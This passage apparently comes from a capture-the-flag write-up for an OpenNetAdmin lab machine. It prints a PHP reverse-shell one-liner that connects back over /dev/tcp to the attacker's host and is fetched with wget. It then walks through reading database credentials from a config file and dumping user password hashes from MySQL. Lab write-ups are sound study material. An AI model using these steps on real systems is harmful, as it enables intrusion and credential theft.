 - Now that we can run command, we can upload a simple php rev-shell script

```php
<?php system("/bin/bash -c 'exec bash -i &>/dev/tcp/{MyIP}/{port} <&1'"); ?>
```

- On the local host setup a simple HTTP server (on the same folder of the PHP script)

```bash
$ python -m http.server
```

- Then on the remote command execution, run the following command

```bash
> wget http://{MyIP}:8000/script.php
> mv script.php ./images/
```

- Now, return to the browser, search for `http://{IP}/ona/images/script.php`
- Now the reverse shell is active on the netcat listener

---

## PRIVILEGE ESCALATION

- Once inside we are in the `/opt/ona/www/` folder
- Notice that it is symlink to the `/var/www/html/ona` folder
- There is a `local/config` folder containing some interesting configurations
- In particular DB credentials

```
'db_type' => 'mysqli',
'db_host' => 'localhost',
'db_login' => 'ona_sys',
'db_passwd' => 'n1nj4W4rri0R!',
'db_database' => 'ona_default',
'db_debug' => false,
```

- We can easily notice that a MySQL service is up and running on port 3306

```bash
$ ss -tlnp

...
LISTEN   0  80  127.0.0.1:3306 0.0.0.0:*
...
```

- We can try to access to the MySQL database

```bash
$ mysql -u ona_sys -p
Password: n1nj4W4rri0R!

mysql> use ona_default;
mysql> show tables

...
users
...

mysql> SELECT * FROM users;
+----+----------+----------------------------------+ ...
| id | username | password                         | ...
+----+----------+----------------------------------+ ...
|  1 | guest    | 098f6bcd4621d373cade4e832627b4f6 | ...
|  2 | admin    | 21232f297a57a5a743894a0e4a801fc3 | ...
+----+----------+----------------------------------+ ...
```